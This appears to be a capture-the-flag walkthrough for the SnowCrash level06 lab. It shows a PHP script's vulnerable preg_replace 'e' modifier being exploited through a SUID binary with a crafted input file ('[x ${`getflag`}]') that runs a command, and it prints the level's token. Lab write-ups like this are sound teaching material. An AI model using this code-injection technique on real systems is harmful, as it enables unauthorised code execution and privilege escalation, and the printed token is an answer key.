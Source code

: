 In home directory there are executable file and PHP script:
```shell
level06@SnowCrash:~$  ls -la
total 24
[...]
-rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php
```
Let's reading the script file:
```shell
level06@SnowCrash:~$ cat level06.php 
#!/usr/bin/php
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>
```
<"/(\[x (.*)\])/e"> this regex use deprecated and vunerable regex 'e' modifier. [Read more](https://stackoverflow.com/questions/16986331/can-someone-explain-the-e-regex-modifier)
And it will eveluate this (.*).
Our executable wait for an argument to use with it:
```shell
level06@SnowCrash:~$ ./level06
PHP Warning:  file_get_contents(): Filename cannot be empty in /home/user/level06/level06.php on line 4
```
So we can write a file which will much the regex <"/(\[x (.*)\])/e"> and use it with our exec file (it with SUID bit)
```shell
level06@SnowCrash:~$ echo '[x ${`getflag`}]' > /tmp/getflag
level06@SnowCrash:~$ ./level06 /tmp/getflag
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
 in /home/user/level06/level06.php(4) : regexp code on line 1
```
